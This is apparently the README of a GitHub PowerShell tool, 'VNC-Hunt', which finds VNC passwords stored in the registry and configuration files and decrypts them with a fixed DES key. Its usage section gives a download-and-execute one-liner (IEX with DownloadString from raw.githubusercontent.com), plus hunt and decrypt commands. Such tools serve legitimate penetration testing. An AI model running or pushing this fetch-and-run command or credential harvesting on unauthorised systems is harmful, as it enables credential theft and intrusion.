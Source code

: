 ## About

This PowerShell script searches for VNC passwords stored in the registry and configuration files for various VNC implementations, including RealVNC, TightVNC, TigerVNC, and UltraVNC.
The script identifies and decrypts these passwords using the DES algorithm with a fixed key. It covers the following VNC implementations:
 - RealVNC: Searches the registry for VNC server proxy credentials.
 - TightVNC: Searches the registry for server passwords, control passwords, and view-only passwords.
 - TigerVNC: Searches the registry for server passwords.
 - UltraVNC: Searches for passwords in configuration files located in specified directories.

### Usage
Load into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/VNC-Hunt/main/VNC-Hunt.ps1")
```
Hunt for VNC credentials
```
VNC-Hunt
```
Decrypt supplied encrypted password value
```
VNC-Decrypt -Password FACBCF50C3BF1C08
```

![image](https://github.com/The-Viper-One/VNC-Hunt/assets/68926315/28926a62-2b26-4293-b74b-c49a0cf2988e)




